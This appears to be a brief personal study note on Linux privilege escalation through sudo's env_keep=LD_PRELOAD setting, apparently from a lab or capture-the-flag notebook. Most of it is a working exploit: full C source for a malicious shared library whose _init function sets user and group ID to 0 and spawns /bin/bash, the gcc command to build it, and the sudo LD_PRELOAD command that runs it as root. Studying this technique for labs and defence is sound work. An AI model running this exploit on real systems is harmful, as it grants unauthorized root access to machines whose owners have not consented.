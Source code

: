 LD= dynamic linker
this means that the shared libraries are loaded first and to exploit first we have to create a custom malicious library  
How to understand the vulnerability
`env_keep=LD_PRELOAD` is enables this means it is vulnerable to LD_PREALOAD
 
![](/Linux-Privilege-Notes/images/sudo%20-l.png)

Exploitation 
create a file called shell.c
with code

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
compile it the command 
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
this will generate a .so file -> shell.so (in our case )

run the file with binaries/files with have root permissions to work with 

`sudo LD_PRELOAD=/home/user/shell.so apache2`

"

![](/Linux-Privilege-Notes/images/sudo%20ld_preload.png)
